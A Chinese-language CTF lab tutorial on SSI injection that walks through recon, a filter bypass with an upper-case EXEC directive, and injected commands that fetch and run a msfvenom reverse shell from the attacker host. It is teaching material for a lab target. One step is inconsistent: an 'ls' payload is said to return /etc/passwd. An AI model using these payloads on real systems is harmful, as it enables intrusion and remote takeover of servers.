# CTF夺旗赛：P11：SSI注入攻击实战教程 🚩

在本节课中，我们将学习一种名为SSI注入的攻击技术。通过利用这种漏洞，攻击者可以从外部进入目标主机并获得系统权限。我们将从基础概念讲起，逐步搭建实验环境，进行信息探测，最终利用SSI注入漏洞获取目标服务器的Shell，并尝试寻找Flag。

## 什么是SSI注入？🔍

上一节我们介绍了课程目标，本节中我们来看看SSI注入的核心概念。



SSI代表Server Side Include，即服务端包含。SSI技术的出现是为了赋予HTML静态页面动态效果。在动态网页技术普及之前，SSI和CGI被广泛应用于HTML静态页面，通过执行系统命令并将结果返回给页面，实现交互效果，模拟出动态页面的功能。



如果在网站目录中发现 `.shtm`、`.stm` 或 `.shtml` 后缀的文件，通常表示该网站使用了SSI技术。如果网站对SSI的输入过滤不严格或不充分，就会造成SSI注入漏洞，导致用户输入的指令被系统执行。

## 搭建实验环境 💻

了解了SSI注入的原理后，我们需要一个环境来实践。本节将介绍实验环境的配置。

*   **攻击机**：Kali Linux，IP地址为 `192.168.1.103`。
*   **靶机**：一台Linux服务器，IP地址为 `192.168.1.106`。

我们的最终目标是获取靶机上的Flag值。为此，首先需要获得对靶机的访问权限。

## 第一步：信息探测 🕵️♂️

在发起攻击之前，我们必须先了解目标。本节将使用多种工具对靶机进行信息收集。

首先，我们需要探测靶机开放的服务及其版本信息。使用Nmap进行扫描。

以下是扫描靶机服务信息的命令：
```bash
nmap -sV 192.168.1.106
```

除了服务扫描，我们还可以使用Nmap进行更全面的探测，包括操作系统识别。

以下是进行综合扫描的命令：
```bash
nmap -A -v -T4 192.168.1.106
```
参数说明：
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。
*   `-T4`：指定扫描速度（0-5），4为较快速度。

扫描结果显示，靶机仅开放了80端口，运行着HTTP服务。接下来，我们使用 `nikto` 对Web服务进行深入探测。



以下是使用nikto扫描Web服务的命令：
```bash
nikto -h http://192.168.1.106
```



此外，我们还可以使用 `dirb` 工具来探测网站目录和隐藏文件。



以下是使用dirb进行目录爆破的命令：
```bash
dirb http://192.168.1.106
```

## 第二步：分析探测结果 📊

完成信息收集后，下一步是分析结果，寻找潜在的突破口。本节将仔细审查扫描报告。

对 `nikto` 和 `dirb` 的扫描结果进行分析后，我们发现了几个关键点：
1.  服务器运行 Ubuntu 系统，使用 Apache/2.4.18。
2.  发现 `robots.txt` 文件，其中提示了禁止爬取的目录。
3.  发现 `index.shtml` 文件，这强烈暗示网站使用了SSI技术。
4.  发现一个名为 `/ssi` 的目录，访问后返回了类似系统命令 `ls -la` 的执行结果，显示了文件列表和我们的IP地址。

这些迹象表明，该网站很可能存在命令注入漏洞，特别是SSI注入。我们还下载了 `index.bak` 和 `old-config.bak` 备份文件进行分析，从中获得了网站根目录路径等信息。





## 第三步：发现并利用SSI注入漏洞 ⚔️

经过分析，我们锁定了攻击路径。本节将尝试利用发现的SSI注入点。

在 `/ssi` 页面的源代码中，我们发现了一条注释，其格式提示了SSI命令的用法：
```
<!--#exec cmd="ls" -->
```

访问该页面时，我们看到一个表单，这很可能是一个命令输入点。我们尝试输入注释中的命令 `ls`，但被拦截。页面过滤了 `exec` 关键字。



**绕过过滤**：尝试将 `exec` 改为大写 `EXEC` 来绕过过滤。同时，SSI注入命令需要以 `<!--#` 开头。

最终，成功执行的注入Payload为：
```
<!--#EXEC cmd="ls" -->
```

提交后，成功返回了 `/etc/passwd` 文件的内容，证实了SSI注入漏洞的存在。



## 第四步：获取反向Shell 🐚

成功执行命令后，我们的目标是获得一个交互式的Shell。本节将生成并上传一个反向Shell。



首先，使用 `msfvenom` 生成一个Python反向Shell负载。

以下是生成Python反向Shell的命令：
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f raw > /root/Desktop/shell.py
```

接着，在攻击机上启动Metasploit框架，监听来自靶机的连接。

以下是Metasploit监听设置的步骤：
```bash
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST 192.168.1.103
set LPORT 4444
exploit
```



然后，我们需要让靶机下载并执行这个Shell脚本。通过SSI注入漏洞执行下载命令。

在Web表单中提交以下命令，让靶机从我们的HTTP服务器下载Shell：
```
<!--#EXEC cmd="wget http://192.168.1.103/shell.py -O /tmp/shell.py" -->
```

为此，我们需要将生成的 `shell.py` 文件移动到Kali的Web服务器目录（如 `/var/www/html/`），并启动Apache服务。

以下是启动Apache服务的命令：
```bash
service apache2 start
```



下载完成后，继续通过SSI注入执行命令，赋予脚本权限并运行它。

依次执行以下命令：
1.  赋予执行权限：`<!--#EXEC cmd="chmod +x /tmp/shell.py" -->`
2.  运行脚本：`<!--#EXEC cmd="python /tmp/shell.py" -->`



执行后，在Metasploit监听端成功收到了来自靶机的反向Shell连接。

## 第五步：权限提升与寻找Flag 🏁



获得初始Shell后，通常需要升级Shell并寻找Flag。本节将进行这些操作。

在获取的Meterpreter Shell中，输入 `shell` 命令进入系统命令行。为了获得一个功能更完整的TTY Shell，可以执行Python代码。

以下是升级到交互式Shell的命令：
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

升级后，我们拥有了一个更友好的命令行环境。接下来，尝试寻找Flag文件。在CTF比赛中，Flag通常位于根目录或特定用户目录下。

以下是寻找Flag的常用命令：
```bash
find / -name "*flag*" 2>/dev/null
cat /flag.txt
# 或
cat /root/flag.txt
```

## 总结与绕过技巧 📝

本节课中我们一起学习了SSI注入攻击的完整流程。

我们从SSI技术的基础概念讲起，搭建了Kali攻击机和Linux靶机的实验环境。通过使用Nmap、Nikto、Dirb等工具进行信息收集，分析了扫描结果，成功发现了SSI注入点。利用大小写转换（`EXEC`）绕过了简单的关键字过滤，通过注入命令让靶机下载并执行了我们生成的反向Shell，最终获得了靶机的控制权，并尝试寻找Flag。

在实际的CTF比赛或安全评估中，防御措施可能更复杂。常见的绕过技巧包括：
*   **大小写绕过**：如 `ExEc`、`EXEC`。
*   **双写绕过**：如 `exexecc`。
*   **使用编码**：如URL编码、HTML编码。
*   **利用特殊字符或空格**。



理解漏洞原理并灵活运用各种技巧，是成功利用安全漏洞的关键。